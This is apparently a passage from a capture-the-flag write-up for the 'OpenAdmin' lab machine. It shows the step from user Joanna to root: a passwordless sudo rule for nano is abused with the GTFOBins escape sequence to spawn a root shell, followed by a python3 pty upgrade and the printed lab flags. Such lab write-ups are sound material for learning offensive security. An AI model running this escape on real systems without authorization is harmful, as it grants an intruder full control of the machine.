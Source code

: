 

# Shell as Joanna


Here I finally had access to user.txt in Joanna's home directory.

```sh
joanna@openadmin:~$ cat user.txt
85dba19514e819..................
```


Running sudo -l shows Joanna can run /bin/nano /opt/priv as sudo without a password. I saw this file earlier, and it was empty.

I ran the following commands, the first command spawned a nano session using sudo, from here I am able to spawn a shell with root privileges. This method can be found on [gtfobins](https://gtfobins.github.io/gtfobins/nano/).

```sh
sudo /bin/nano /opt/priv


^R^X
reset; sh 1>&0 2>&0
```


I used the same python3 trick to spawn a TTY shell.

```sh
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@openadmin:/home/joanna#
```

I now had access to root.txt.

```sh
root@openadmin:~# cat root.txt
7850323c2b54c7c3bf31b82b36037213
```